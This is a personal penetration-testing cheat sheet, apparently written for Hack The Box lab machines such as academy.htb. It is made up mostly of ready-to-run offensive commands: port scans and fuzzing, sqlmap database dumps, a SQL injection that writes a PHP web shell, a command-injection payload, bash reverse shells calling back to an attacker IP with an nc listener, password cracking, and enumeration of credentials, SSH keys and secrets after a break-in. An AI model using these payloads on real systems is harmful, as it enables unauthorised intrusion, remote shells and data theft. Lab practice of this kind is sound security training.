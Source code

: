 # nmap

 - `nmap -sV --open -p- 10.129.5.201`
 - `nmap -sC -sV -p 22,80,8065 10.129.5.201`
 - `sudo nmap -sV -sU -p- --min-rate 5000 10.129.5.201`
 - `sudo nmap -sU -p 161 -sV 10.129.5.201`

# Update /etc/hosts file

 - `echo "10.129.5.201 academy.htb" | sudo tee -a /etc/hosts`

# ffuf

> After running the following, you want to filter out noise using the -fl option 

 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ`
 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ -e .php,.html,.txt`
 - `ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://academy.htb/ -H "Host: FUZZ.academy.htb"`

# sqlmap

 - `sqlmap -r request --batch`
 - `sqlmap -r request --second-url "http://10.129.95.235/account.php"`
   - We use the second url paramater for when the output is stored in a different url

### Useful options

 - `--dbs` 
   - enumerate the database
 - `-D <db_name> --tables` 
   - enumerate the tables
 - `-D <db_name> -T <table_name> --columns` 
   - enumerate the columns in a table
 - `-D <database_name> --dump-all`
   - dump the entire database

# SQL Stuff

 - `psql -h 127.0.0.1 -U postgres -p`
 - `mysql -u <user> -p`
 - `Brazil' UNION SELECT "<?php SYSTEM $_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -`
   - This is used to drop a web shell when you can do a UNION injection and is a PHP app

# curl

 - `curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=27mmajj85si451dmcbtin048j9" | jq`
 - `curl -sv -X POST http://academy.htb/home.php --cookie "PHPSESSID=1i52bbppla8d5tn8uguvrh3g75" -H 'Content-Type: application/json' --data '{"module_id": "1; id"}'`
 - `curl http://10.129.95.235/test.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.148/4242 0>&1"'`

# Shells

 - `bash -i >& /dev/tcp/10.10.14.148/4242 0>&1`
 - `echo "bash -i >& /dev/tcp/10.10.14.15/4242 0>&1" | base64 -w 0`
 - `Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- -`
   - SQL injection to write a file to create a web shell

# nc

 - `nc -nvlp 4242`

# Stabilizing Shells

 1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 2. `ctrl+z`
 3. `stty raw -echo; fg`
 4. `export TERM=xterm`

# Password Cracking

 - `john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

# snmpwalk

 - `snmpwalk -v1 10.129.155.174:161 -c public`

# grep

 - `grep "*sh$" /etc/passwd`

# Linux Environment Enumeration

 - `whoami`
   - What user are we running as
 - `id`
   - What groups does the user belong to
 - `hostname`
   - What is the server named, can we gather anything from the naming convention
 - `ifconfig`
   - What subnet are we on
 - `sudo -l`
   - Can we run anything with sudo
 - `cat /etc/os-release`
   - Get the OS and release version
 - `echo $PATH`
   - Check to see if the path is misconfigured
 - `env`
   - Check to see if there are any secrets in the environment variables
 - `uname -a`
   - Get the Kernel version to see if there are any exploits we can take advantage of
 - `lscpu`
   - Get CPU type and version
 - `cat /etc/shells`
   - Get the login shells that exist on the server
   - tmux and screen are notable ones you can exploit
 - Check for defenses in place, some notable ones include
   1. Exec Sheild
   2. iptablse
   3. AppArmor
   4. SELinux
   5. Fail2ban
   6. Snort
   7. Uncomplicated Firewall (ufw)
 - `lsblk`
   - Enumerates info about block devices on the system (hard disks, USB drives, etc.)
   - If we discover and can mount an additional drive or unmounted file system they might contain sensitive info
 - `lpstat`
   - Find info about printers attached to the system
 - `cat /etc/fstab`
   - Checks for mounted and unmounted drives
 - `route`
   - See what other networks are available via which interface
 - `cat /etc/resolv.conf`
   - Do this if we re in a domain env - can use this as a starting point to query the AD env
 - `arp -a`
   - Shows the arp table which details what other hosts the target has been communicating with
 - `cat /etc/passwd`
   1. Username
   2. Password
   3. User ID (UID)
   4. Group ID (GID)
   5. User ID info
   6. Home dir
   7. Shell
 - `getent group sudo`
   - List members that are a part of a group that has access to sudo
 - Check `/home`
   - `.bach_history`
   - SSH keys
   - Cred files
 - `find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null`
   - Find .config files
 - `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`
   - Find all config files
